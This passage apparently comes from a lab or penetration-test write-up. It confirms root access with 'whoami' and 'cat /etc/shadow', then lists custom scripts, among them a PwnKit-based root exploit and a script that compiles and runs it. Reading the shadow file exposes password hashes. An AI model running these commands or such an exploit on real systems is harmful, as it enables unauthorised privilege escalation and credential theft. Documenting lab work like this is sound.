- 

---

## 3.3 Confirm Root Access

```bash
whoami
cat /etc/shadow
```

**Screenshot:**
- 

---

# 📆 Custom Scripts Used

| Script | Purpose |
|:------|:--------|
| `lightpeas.sh` | Local enumeration script (gather system info) |
| `ExploitRoot.c` | Custom compiled PwnKit-based root exploit |
| `escalate.sh` | Automated script to compile and run ExploitRoot.c |

✅ Located at: `phase1/custom/`

---
